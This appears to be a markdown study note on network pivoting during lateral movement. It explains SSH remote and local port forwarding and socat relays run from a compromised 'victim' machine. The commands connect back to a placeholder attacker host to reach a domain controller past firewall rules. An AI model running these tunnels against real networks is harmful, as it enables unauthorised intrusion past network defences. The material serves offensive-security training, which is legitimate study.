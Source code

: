 Most of the lateral movement techniques we have presented require specific ports to be available for an attacker. In real-world networks, the administrators may have blocked some of these ports for security reasons.

**SSH Tunnelling:**

```SSH``` already has built-in functionality to do port forwarding through a feature called SSH Tunneling. We will start a tunnel from the controlled victem machine, acting as an SSH client, to the Attacker's PC, which will act as an SSH server.

Since we'll be making a connection back to our attacker's machine, we'll want to create a user
```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
**First type: SSH Remote Port Forwarding**

It's allows you to take a reachable port from the SSH client (in this case, the controlled victem machine) and project it into a remote SSH server (the attacker's machine). in other words, if we could not reach the target machine(Domain controller) via port 1111 due to the firewall, By doing *SSH Remote Port Forwarding* we could reach to the target via the controlled victem machine via any choosen port.
```
C:\> ssh tunneluser@<ATTACKERIP> -R 3389:<DOMAIN_CONTROLLER>:1111 -N     # this command will be run in the controlled victem machine cuz this machine can reach the target via 1111 port while the attacher machine can not.
```

**Second type: SSH Local Port Forwarding**

It's allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on controlled victem machine. That way, any host that can't connect directly to the attacker's PC but can connect to controlled victem machine will now be able to reach the attacker's services through the pivot host.<br>
In other words, If any machine access the controlled victem machine via {123} port it will make them access the attacker machine's {101} port. 
```
C:\> ssh tunneluser@<ATTACKERIP> -L *:101:127.0.0.1:123 -N
```

**Port Forwarding With socat**

```
socat TCP4-LISTEN:1234,fork TCP4:<DOMAIN_CONTROLLER>:4321
```
If the controlled victem machine recieved any connections via 1234 port, it will redirect these connections to the DC's 4321 port.










